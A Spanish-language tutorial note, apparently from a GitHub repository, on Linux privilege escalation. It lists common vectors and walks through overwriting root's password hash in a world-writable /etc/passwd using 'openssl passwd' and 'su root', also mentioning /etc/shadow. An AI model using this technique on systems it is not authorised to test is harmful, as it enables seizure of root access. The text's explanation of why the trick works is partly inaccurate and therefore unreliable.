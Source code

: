 Esto consiste en escalar de un usuario no privilegiado a uno privilegiado.

La siguiente informacion nos puede facilitar una escalda, pero exiten muchas mas.

- Exploits de kernel
- Vulnerabilidades de las aplicaciones
- Configuraciones incorrectas, como permisos en archivos debiles
- Abuso de sudo
- Abuso de setuid y setgid
- Trabajos cron
- Contraseñas deficientes


### Caso 1
**Configuraciones incorrectas**
Privilegios de escritura en */etc/passwd*

	-rw-r--rw- 1 root root 3098 oct 30 07:14 /etc/passwd

Si nosotros vizualizamos el */etc/passwd* podemos ver los usuarios y una estructura

	root:x:0:0:root:/root:/usr/bin/zsh
*root:x:* esto es lo interesante, la primera parte corresponde al user la segunda a la contraseña, pero todas las contraseñas de los usuarios estan en */etc/shadow*

	 root:$y$j4T$irDX/b1D.xsGnAjgwXqjN0$SUhJ7c+masHash:19295:0:99999:7:::
Estas se guardan con un cifrado SH512 y por obvias razones no muestra el hash donde se encuentra la *x*.

Ahora cuando nosotros aplicamos un *su* inmediatemente linux busca este usuario en */etc/passwd* y despues compara la contrasela ingresada(Hasheada) con el hash de */etc/shadow*.

La idean es colocar un contraseña cifrada en */etc/password* en *root:x:* para que cuando el apliquemos un *su*, busque el usuario en */etc/passwd* y que no le de tiempo en ir hasta */etc/shadow* y comparar el hash real y compare el que ingresamos.

	#Crear passwd con cifrado MD5(unix) 
	openssl passwd
	#file /etc/passwd
	root:$1$Oj5vDRtl$gLDk3yZydofZs87dn2wR20:0:0:root:/root:/usr/bin/zsh
	su root

*Nota:* En caso de tener permiso de escritura en  */etc/shadow* podria hacer lo mismo, crear una contraseña hasheada y editar el usuario.


